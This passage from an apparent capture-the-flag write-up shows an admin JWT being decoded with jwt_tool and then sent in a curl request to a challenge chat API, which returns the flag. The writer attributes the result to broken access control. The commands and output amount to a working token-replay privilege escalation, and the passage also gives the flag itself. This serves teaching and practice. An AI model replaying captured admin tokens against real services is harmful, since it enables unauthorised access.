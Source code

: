 We get a token and upon decoding : 
```sh
└─$ jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiMDAwMDAwMDAtMDAwMC0wMDAwLTAwMDAtMDAwMDAwMDAwMDAwIiwiZW1haWwiOiJhZG1pbkBiaXR3YWxsLmNvLmtlIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxNzQ2NTE4NTcyfQ.Hy6o_SxuKK50W5KotrPltTDzGXBMtz0zYF9T1plANWs

...[snip]...

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] uuid = "00000000-0000-0000-0000-000000000000"
[+] email = "admin@bitwall.co.ke"
[+] role = "admin"
[+] exp = 1746518572    ==> TIMESTAMP = 2025-05-06 11:02:52 (UTC)

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

```
Bravooo!!! Now we have the admin token thus we can request the flag.
```sh
└─$ curl -X POST http://44.206.226.86:5000/api/chat   -H "Content-Type: application/json; charset=utf-8"   -H "x-access-token: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiMDAwMDAwMDAtMDAwMC0wMDAwLTAwMDAtMDAwMDAwMDAwMDAwIiwiZW1haWwiOiJhZG1pbkBiaXR3YWxsLmNvLmtlIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxNzQ2NTE4NTcyfQ.Hy6o_SxuKK50W5KotrPltTDzGXBMtz0zYF9T1plANWs"   -d '{"message":"flag"}'
{"response":"Here is your flag: BitCTF{Br0k3n_4cc3ss_C0ntr0l_L34ds_T0_Pr1v1l3ge_3sc4l4t10n}"}

```

The flag is : `BitCTF{Br0k3n_4cc3ss_C0ntr0l_L34ds_T0_Pr1v1l3ge_3sc4l4t10n}`
